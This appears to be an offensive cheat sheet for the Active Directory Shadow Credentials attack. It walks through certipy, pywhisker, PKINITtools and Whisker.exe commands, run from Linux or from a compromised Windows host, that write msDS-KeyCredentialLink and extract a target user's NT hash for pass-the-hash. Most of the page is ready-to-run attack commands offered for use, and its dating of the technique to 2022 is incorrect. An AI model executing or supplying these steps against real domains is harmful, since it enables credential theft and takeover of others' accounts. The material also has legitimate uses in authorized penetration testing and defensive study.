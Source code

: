 With shadow credentials attack you can get the NT hash from a target user. Then use it for pass-the-hash.
Requirements are rights enought to write in msDS-KeyCredentialLink and PKINIT enable in kerberos.
Check bloodhound sudgestions to know if this attack vector is available in your case.

### What, when and who:
The Shadow Credentials attack was discovered and presented in 2022 by Elad Shamir and Michael Grafnetter. They revealed the technique during a security research talk, showcasing how attackers can abuse the msDS-KeyCredentialLink attribute to achieve stealthy persistence in Active Directory environments using certificate-based authentication.

# Abusing SHADOW CREDENTIALS from Linux (externally):
____________________________________________________


### SHADOW CREDENTIALS ATTACK (with certipy, RECOMENDED):

 * REQUIREMENTS: Get certipy (or certipy-ad in kali) AND UPDATE IT to the last version -> https://github.com/ly4k/Certipy/wiki/04-%E2%80%90-Installation

 You can do this attack with password or NT Hash wit pass the hash technique:
 
` < kerberos sync clock command > ; certipy shadow auto -u <user you control>@<domain> -p <password> -account <target user> `

` < kerberos sync clock command > ; certipy shadow auto -u <user you control>@<domain> -hashes :<your user NT hash here> -account <target user> `


### SHADOW CREDENTIALS ATTACK (with pywisker):

 * REQUIREMENTS: Get pywhisker, "gettgtpkinit.py" and "getnthash.py" from this repositoris:
   
     https://github.com/ShutdownRepo/pywhisker?tab=readme-ov-file
   
     https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py
   
     https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py



` pywhisker -d "< domain >" -u "< user you control>" -p "< password >" --target "<target user>" --action "add" `

` < kerberos sync clock command > ; gettgtpkinit.py -cert-pfx <cert from previous command>.pfx -pfx-pass <pass from previous command> <domain>/<user you control> <target user>.ccache `

` export KRB5CCNAME=<target user>.ccache `

` getnthash.py -key <key obtanined from previous command> <domain>/<target user> `

<br>

# Abusing SHADOW CREDENTIALS from Windows (internally):
______________________________________________________


### SHADOW CREDENTIALS ATTACK (with whisker.exe):

 Upload Whisker.exe to the target machine and execute:
  ` ./Whisker.exe add /target:<target user> `

 This will gieve you certificate and cert. password, then you can use it outside with gettgtpkinit.py and getnthash.py as above.


 You can also list targeted users:
  ` ./Whisker.exe list /target:<target user> `

 You can also remove targets from msDS-KeyCredentialLink
  ` ./Whisker.exe remove /target:<target user> `


